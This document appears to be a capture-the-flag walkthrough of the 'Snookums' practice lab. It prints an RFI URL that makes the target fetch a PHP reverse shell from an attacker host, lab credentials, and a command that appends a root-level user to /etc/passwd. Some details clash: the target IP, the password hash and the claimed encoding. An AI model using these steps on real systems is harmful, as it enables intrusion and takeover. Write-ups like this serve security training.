

# Snookums — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Linux (CentOS)

---

## TL;DR

Simple PHP Photo Gallery RFI → shell as apache (tricky — only open ports work for reverse shell) → MySQL creds in config → double base64-decoded passwords → su as michael → writable `/etc/passwd` → add root user → root.

---

## Enumeration

```bash
nmap -sV -p- 192.168.177.58
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 3.0.2 (anon allowed) |
| 22 | SSH | OpenSSH 7.4 |
| 80 | HTTP | Apache 2.4.6 (Simple PHP Photo Gallery) |
| 139/445 | SMB | Samba 4.10.4 |
| 3306 | MySQL | MySQL |
| 33060 | MySQLX | MySQL X Protocol |

---

## Exploitation — Remote File Inclusion (RFI)

The Simple PHP Photo Gallery is vulnerable to RFI: [EDB-48424](https://www.exploit-db.com/exploits/48424)

**Important catch:** The application only allows connections back on ports that are already open on the target. Standard ports like 4444 or 443 won't work. We use **port 21** for our reverse shell:

```
http://192.168.244.58/image.php?img=http://192.168.45.201/php-reverse-shell.php
```

Shell caught as `apache` user.

---

## Lateral Movement — MySQL Double-Encoded Credentials

Found MySQL creds in the web config:

```bash
cat /var/www/html/db.php
```

```php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
```

Upgrade shell and log into MySQL:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
mysql -u root -p SimplePHPGal -P 3306
```

```sql
select * from users;
```

| Username | Password (double base64) |
|----------|-------------------------|
| josh | MobilizeHissSeedtime747 |
| michael | HockSydneyCertify123 |
| serena | OverallCrestLean000 |

The passwords were **double base64-encoded** — decode twice to get the plaintext.

SSH as michael: `michael:HockSydneyCertify123`

---

## Privilege Escalation — Writable /etc/passwd

Running linpeas, we discover that `/etc/passwd` is **writable**:



Generate a password hash:

```bash
openssl passwd admin
# $1$mA9V.gCd$WzmIHPAu1DZob5v7mYt7m0
```

Add a new root user:

```bash
echo 'newroot:$1$EwVD5sFI$PKMvBpFdfaAmp5No8AkTl0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

```bash
su newroot
# Password: admin
```

**Root.** 🎉

---

## Key Takeaways

- **Firewall restrictions on reverse shells** — always try ports that are already open on the target when standard ports fail
- **Double base64 encoding** is a thing — always try decoding credentials multiple times
- **Writable `/etc/passwd`** is a direct root path — just add a user with UID 0
- `openssl passwd` is the go-to command for generating password hashes for `/etc/passwd` entries

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
